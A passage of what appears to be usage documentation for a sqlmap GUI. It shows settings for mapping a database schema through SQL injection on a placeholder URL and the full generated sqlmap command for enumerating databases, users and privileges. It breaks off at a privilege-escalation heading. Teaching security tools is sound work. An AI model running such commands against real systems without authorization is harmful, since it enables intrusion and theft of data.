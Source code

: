 ## 🏗️ Database Structure Discovery

### Example 9: Complex Schema Mapping
**Scenario:** Map entire database schema including relationships

**Target Information:**
- URL: `http://target.com/admin.php?id=1`
- Unknown schema with multiple databases

**GUI Configuration:**
```
Target Tab:
├── URL: http://target.com/admin.php?id=1
└── Cookie: admin_auth=valid_session

Enumeration Tab:
├── Enumerate Databases: ✓
├── Enumerate Tables: ✓
├── Enumerate Columns: ✓
├── Enumerate Users: ✓
├── Enumerate Privileges: ✓
├── Enumerate Roles: ✓
└── Count: ✓

Fingerprint Tab:
├── Fingerprint DBMS: ✓
├── Banner Grab: ✓
├── Current User: ✓
├── Current Database: ✓
├── Check Version: ✓
├── Enumerate Version: ✓
└── Detect Features: ✓

General Tab:
├── Output Directory: ./schema_mapping/
├── HTML Format: ✓
├── Verbose Level: 4
└── Log File: ./schema_mapping/discovery.log
```

**Generated Command:**
```bash
sqlmap -u "http://target.com/admin.php?id=1" --cookie="admin_auth=valid_session" --dbs --tables --columns --users --privileges --roles --count --fingerprint --banner --current-user --current-db --check-version --version --check-dbms --output-dir=./schema_mapping/ --html -v 4 --log-file=./schema_mapping/discovery.log
```

## 🔐 Privilege Escalation

### Example 10: Database Privilege Escalation
**Scenario:** Escalate from low-privilege user to DBA privileges
